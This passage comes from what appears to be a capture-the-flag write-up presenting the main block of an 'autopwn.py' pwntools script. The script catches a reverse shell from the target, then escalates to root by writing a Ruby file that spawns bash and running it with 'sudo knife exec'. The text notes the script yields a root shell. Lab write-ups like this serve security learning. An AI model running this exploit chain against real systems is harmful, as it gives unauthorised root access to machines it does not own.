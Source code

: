 ```python

# Main
if __name__ == "__main__":
	# Comprobacion argv
	if(len(sys.argv)==3):
		try:
			threading.Thread(target = obtainShell).start()
		except Exception as e:
			log.error(str(e))


		p2.status("Esperando conexion...")


		# Listener
		shell = listen(lport,timeout=20).wait_for_connection()


		# Connection checker
		if shell.sock is None:
			log.failure("No se ha obtenido ninguna conexion!")
			sys.exit(1)
		else:
			p2.success("Conexion obtenida")
			time.sleep(1)


			# Nos situamos en el directorio de trabajo
			shell.sendline(b'cd /tmp')
			
			# Escalada de privilegios
			payload = b'''echo -e "#\!/usr/bin/ruby -w\n\nsystem('/bin/bash')" > k.rb'''
			shell.sendline(payload)


			execute_payload = b'sudo /usr/bin/knife exec k.rb'
			shell.sendline(execute_payload)


			# Interactive shell
			shell.interactive()
	
	else:
		# Usage
		print("Usage: " + sys.argv[0] + " <http://RHOST>" + " <LHOST>")
```
{: .file="exploits/autopwn.py"}

![Desktop View](autopwn.png){: w="700" h="400" }
_Autopwn Working_

We can see how running the script, indicating the `RHOST` and the `LHOST`, we obtain a shell as the `root` user.
